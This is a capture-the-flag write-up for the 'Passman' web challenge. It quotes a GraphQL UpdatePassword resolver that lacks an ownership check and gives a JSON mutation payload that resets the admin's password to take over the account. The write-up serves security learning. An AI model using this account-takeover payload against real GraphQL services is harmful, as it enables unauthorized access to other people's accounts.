

# Passman (easy)

This challenge was a cool little introduction to the recently widely adopted form of APIs, GraphQl.

Looking at the app from the outside we can see that we can register and login into the app, and looking deeper it is just a simple password manager. Nothing out of the ordinary so far.

looking at the source code we can see a `GraphqlHelper.js` file that has implementation of all the necessary api calls needed for the core functionality of the app. but looking real close we can see an interesting unused api call `UpdatePassword`.

```js
UpdatePassword: {
            type: ResponseType,
            args: {
                username: { type: new GraphQLNonNull(GraphQLString) },
                password: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    if (!request.user) return reject(new GraphQLError('Authentication required!'));

                    db.updatePassword(args.username, args.password)
                        .then(() => resolve(response("Password updated successfully!")))
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        }
```
it might seem a bit confusing for someone new to GraphQL as we are, but it is really simple call to update the password of an arbitrary user.

we actually derived the syntax of the graphql call via monitoring the api calls that the app already makes using burp suite.

and again we can verify that there is an admin user using the SQL query executed in the `entrypoint.sh` file

```SQL
INSERT INTO passman.users (username, password, email, is_admin)
VALUES
    ('admin', '$(genPass)', 'admin@passman.htb', 1),
    ('louisbarnett', '$(genPass)', 'louis_p_barnett@mailinator.com', 0),
    ('ninaviola', '$(genPass)', 'ninaviola57331@mailinator.com', 0),
    ('alvinfisher', '$(genPass)', 'alvinfisher1979@mailinator.com', 0);
```

So we create a mutation query to the GraphQL api to update the admin password as so:

```json
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }","variables":{"username":"admin","password":"aaa"}}
```



And then we will be greeted with the flag stored in the admin's password manager dashboard that we can see by pressing the view button

